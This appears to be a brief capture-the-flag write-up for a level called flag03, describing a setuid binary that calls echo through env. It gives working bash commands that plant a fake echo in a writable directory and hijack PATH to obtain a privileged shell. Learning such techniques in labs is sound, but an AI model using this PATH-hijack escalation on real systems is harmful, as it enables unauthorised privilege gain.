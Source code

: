 # flag03

We are given a suid/sgid binary, which when analyzed with `gdb` seems to just run `system("/usr/bin/env echo Exploit me.")`.

We can create a script in our path to override the `echo` command, such as:
```bash
echo $'#!/bin/sh\necho "Exploited :3"\n/bin/bash' > /run/shm/echo
chmod +x /run/shm/echo
export PATH=/run/shm:$PATH
./level03
```

We are now given a shell as `flag03`.
